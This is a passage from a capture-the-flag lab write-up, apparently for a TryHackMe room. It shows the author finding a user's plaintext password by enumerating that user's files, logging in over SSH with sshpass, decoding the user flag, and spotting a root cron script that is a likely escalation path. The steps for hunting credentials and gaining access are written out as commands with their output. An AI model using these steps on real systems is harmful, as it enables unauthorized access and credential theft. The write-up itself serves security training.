 
There is a hint that tells us the password may be hidden in the system:

~~~
bash-4.4$ cat hint.txt
cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
~~~

Enumerating files owned by the user highlights an interesting file (`private.txt`) in `/etc/mysql/conf.d`:

~~~
bash-4.4$ find / -user elyana -type f 2>/dev/null
find / -user elyana -type f 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
~~~

Now that we have `elyana`'s password, we no longer need the reverse shell and we can connect via SSH directly:

~~~
kali@kali:/data/All_in_One$ sshpass -p "E@syR18ght" ssh elyana@10.10.244.196
-bash-4.4$ cat user.txt 
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
-bash-4.4$ echo "VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259" | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
~~~

User flag: `THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}`

# Root flag

Checking the crontab reveals a script (`/var/backups/script.sh`) executed by `root` every minute:

~~~
-bash-4.4$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh
~~~
